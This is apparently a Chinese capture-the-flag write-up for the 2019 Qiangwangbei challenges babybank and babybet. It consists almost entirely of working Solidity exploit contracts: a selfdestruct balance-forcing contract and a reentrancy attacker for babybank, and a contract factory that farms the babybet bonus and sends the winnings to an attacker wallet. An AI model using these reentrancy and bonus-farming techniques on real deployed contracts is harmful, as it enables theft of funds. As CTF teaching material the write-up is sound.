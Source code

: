 # 第三届强网杯babybank&babybet

[babybank题目和exp](https://github.com/beafb1b1/challenges/tree/master/qwb/2019_crypto_babybank)

[babybet题目和exp](https://github.com/beafb1b1/challenges/tree/master/qwb/2019_crypto_babybet)

## babybank

强制转账余额后，重入攻击+整形溢出，最后payforflag

```js
contract transfer_force{
    
    address owner;
    
    function () payable {
    }
    
    constructor()public{
        owner = msg.sender;
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
    
    function kill(address to) public onlyOwner {
        selfdestruct(to);
    }
}

contract reentrancy{
    address bb;
    uint have_withdraw;
    
    function set_bb(address target)
    {
        bb=target;
    }
    
    function withdraw(uint amount){
        babybank(bb).withdraw(amount);
    }
    
    function () payable {
        if (have_withdraw==0){
            have_withdraw=1;
            babybank(bb).withdraw(2);
        }
    }
    
    function getflag(string md5ofteamtoken,string b64email) public{
        babybank(bb).payforflag(md5ofteamtoken,b64email);
    }
}
```

## babybet

薅羊毛

```js
contract father {
    function father() payable {}
    babybet_attack son;
    function attack(uint256 times) public {
        for(uint i=0;i<times;i++){
            son = new babybet_attack();
        }
    }
    function () payable {
    }
}

contract babybet_attack{
    address bbb=0x5d7aacdf02186810d754cf24d2496b3bdf30d75b;
    address mywallet=0xdAA45B7958aF6B14dc8BFF097AddC449Bc39fB55;
    constructor() public{
        babybet(bbb).profit();
        babybet(bbb).bet(0);
        uint amount=babybet(bbb).balance(address(this));
        if (amount>500){
        babybet(bbb).transferbalance(mywallet,1000);}
    }
}
```